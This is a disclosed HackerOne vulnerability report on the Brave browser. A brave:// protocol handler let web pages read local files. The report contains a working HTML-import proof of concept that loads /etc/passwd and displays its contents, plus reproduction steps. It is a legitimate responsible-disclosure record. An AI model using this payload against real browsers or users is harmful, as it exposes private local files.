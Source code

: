# Local files reading from the web using `brave://`

## Report Details
- **Report ID**: 390013
- **URL**: https://hackerone.com/reports/390013
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-03T02:40:34.651Z
- **Disclosed**: 2018-09-25T00:05:47.401Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:

`brave://` protocol was introduced as a replacement for `AsarProtocolHandler`(or something like that) in `brave/muon` after #375329. 

However, fix for #375329 introduced a new much severe bug that allows reading files from a user's device from the web.

PoC is similar to #375329, but it uses `brave://` instead of `file://`:
```
<head>
    <script>
        function show() {
            var file = link.import.querySelector('body')
            alert(file.innerHTML)
        }
    </script>
    <link id="link" href="brave:///etc/passwd" rel="import" as="document" onload="show()" />
</head>
```

## Products affected: 

Brave: 0.23.73 
V8: 6.8.275.24 
rev: 50bdb6df42550dd14f5636770ec8585aa26e361b 
Muon: 8.0.3 
OS Release: 17.7.0 
Update Channel: Release 
OS Architecture: x64 
OS Platform: macOS 
Node.js: 7.9.0 
Brave Sync: v1.4.2 
libchromiumcontent: 68.0.3440.75

## Steps To Reproduce:

1. Open `exploit.html` from the web
2. Page alerts contents of `file:///etc/passwd`

## Supporting Material

Screencast attached.

## Impact

Reading local files from the web is a critical vulnerability.
I'm investigating this issue more detailed now, maybe impact is much severe than reading local files.

## Attachments
- brave-read-local-files-from-the-web.mp4
- exploit.html
